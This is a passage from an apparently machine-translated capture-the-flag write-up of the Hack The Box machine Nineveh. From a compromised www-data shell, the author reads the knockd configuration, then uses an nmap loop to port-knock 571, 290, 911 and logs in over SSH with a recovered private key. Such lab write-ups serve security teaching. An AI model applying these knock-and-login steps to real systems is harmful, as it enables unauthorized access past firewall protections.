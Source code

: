 
公钥给出一个用户名，阿姆罗伊斯：

    ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCuL0RQPtvCpuYSwSkh5OvYoY//CTxgBHRniaa8c0ndR+wCGkgf38HPVpsVuu3Xq8fr+N3ybS6uD8Sbt38Umdyk+IgfzUlsnSnJMG8gAY0rs+FpBdQ91P3LTEQQfRqlsmS6Sc/gUflmurSeGgNNrZbFcNxJLWd238zyv55MfHVtXOeUEbkVCrX/CYHrlzxt2zm0ROVpyv/Xk5+/UDaP68h2CDE2CbwDfjFmI/9ZXv7uaGC9ycjeirC/EIj5UaFBmGhX092Pj4PiXTbdRv0rIabjS2KcJd4+wx1jgo4tNH/P6iPixBNf7/X/FyXrUsANxiTRLDjZs5v7IETJzVNOrU0R amrois@nineveh.htb
    

### 检查端口敲击

另一个有趣的事情是从shell中跳出来作为w-data是过程：`knockd`

    www-data@nineveh:/$ ps auxww
    ...[snip]...
    root      1334  1.1  0.2   8756  2228 ?        Ss   Apr10  15:29 /usr/sbin/knockd -d -i ens33
    ...[snip]...
    

`knockd`是端口敲门的守护进程，当某些端口按顺序命中时，它将设置某些防火墙规则。我可以在以下位置找到配置文件：`/etc/knockd.conf`

    www-data@nineveh:/$ cat /etc/knockd.conf 
    [options]
     logfile = /var/log/knockd.log
     interface = ens33
    
    [openSSH]
     sequence = 571, 290, 911 
     seq_timeout = 5
     start_command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
     tcpflags = syn
    
    [closeSSH]
     sequence = 911,290,571
     seq_timeout = 5
     start_command = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
     tcpflags = syn
    

这表示我可以通过点击571，290，然后使用syns点击911来打开SSH，所有这些都在5秒内完成，并且这样做时，它将添加一个规则以允许我的IP进入端口22。

### 敲

[This wiki page](https://wiki.archlinux.org/index.php/Port_knocking) gives a good example of using to port knock. I’ll write it as a one liner:`nmap`

    root@kali# for i in 571 290 911; do
    > nmap -Pn --host-timeout 100 --max-retries 0 -p $i 10.10.10.43 >/dev/null
    > done; ssh -i ~/keys/id_rsa_nineveh_amrois amrois@10.10.10.43
    Ubuntu 16.04.2 LTS
    Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)
    
     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    
    133 packages can be updated.
    66 updates are security updates.
                                                                                                                                                                                                            